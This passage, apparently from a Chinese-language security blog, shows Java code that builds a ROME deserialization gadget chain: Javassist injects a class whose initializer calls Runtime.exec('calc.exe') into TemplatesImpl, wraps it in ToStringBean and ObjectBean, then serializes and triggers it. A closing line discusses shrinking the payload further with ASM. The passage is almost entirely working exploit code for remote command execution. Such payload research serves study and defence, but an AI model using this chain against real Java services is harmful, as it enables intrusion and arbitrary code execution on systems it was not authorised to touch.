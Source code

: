 ```java
        CtClass ctClass = pool.makeClass("i");
        CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = ctClass.makeClassInitializer();
        constructor.setBody("Runtime.getRuntime().exec(\"calc.exe\");");
        byte[] bytes = ctClass.toBytecode();

        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "a");
        setFieldValue(templatesImpl, "_tfactory", null);

        ToStringBean toStringBean = new ToStringBean(Templates.class, templatesImpl);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        Map hashMap = new HashMap();
        hashMap.put(objectBean, "x");

        ByteArrayOutputStream baout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(baout);
        oout.writeObject(hashMap);
        System.out.println(new String(Base64.encode(baout.toByteArray())).length());
        ByteArrayInputStream bain = new ByteArrayInputStream(baout.toByteArray());
        ObjectInputStream oin = new ObjectInputStream(bain);
        oin.readObject();
    }
}
```

确实短 这就 1932 了，我们还可以结合 ASM 进行进一步的缩减，以及上面将一些无用参数置空。

‍